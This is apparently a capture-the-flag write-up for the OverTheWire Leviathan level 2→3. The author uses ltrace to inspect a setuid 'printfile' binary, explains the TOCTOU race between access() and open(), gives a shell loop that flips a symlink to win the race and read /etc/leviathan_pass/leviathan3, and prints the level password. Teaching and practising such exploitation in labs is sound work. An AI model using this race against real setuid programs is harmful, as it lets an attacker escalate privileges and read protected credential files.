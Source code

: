 After logging in, there is a "printfile" executable in the home folder owned by leviathan3. Before doing anything with it, I ran `file` on it to see what kind of file it was, which returned:

```
./printfile: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d1b5e5f479cfe2970294b7e8b7af05257c24777f, not stripped
```

Running just the file by itself returns the usage for it.

```
*** File Printer ***
Usage: ./printfile filename
```

I then ran an `ltrace` on it with the password file to see what it actually does.

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x565556c0, 2, 0xffffd6d4, 0x565557b0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)          = -1
puts("You cant have that file..."You cant have that file...
)                   = 27
+++ exited (status 1) +++
```

Well, that is somewhat helpful. I imagine the weak link will be the access function, since that seems to be the one that actually makes sure I am allowed access.

After a bit of research, I found info on a [race condition](https://en.wikipedia.org/wiki/Race_condition) for `access()`. Essentially, when there is a check via `access()` before an `open()` to open the file, the hacker can switch from a file they do have access to be a symbolic link to one that they do not have access to, and it will be opened for them.

That in mind, I made a /tmp/ folder to work in and in it created a script to basically bruteforce tricking the program into giving me access to the password.

```sh
#!/bin/sh
touch fake
while true; do
        ln -sf ./fake a &
        ~/printfile a &
        ln -sf /etc/leviathan_pass/leviathan3 a &
done
```

This ran and among the errors was the password I wanted.

Password: Ahdiemoo1j
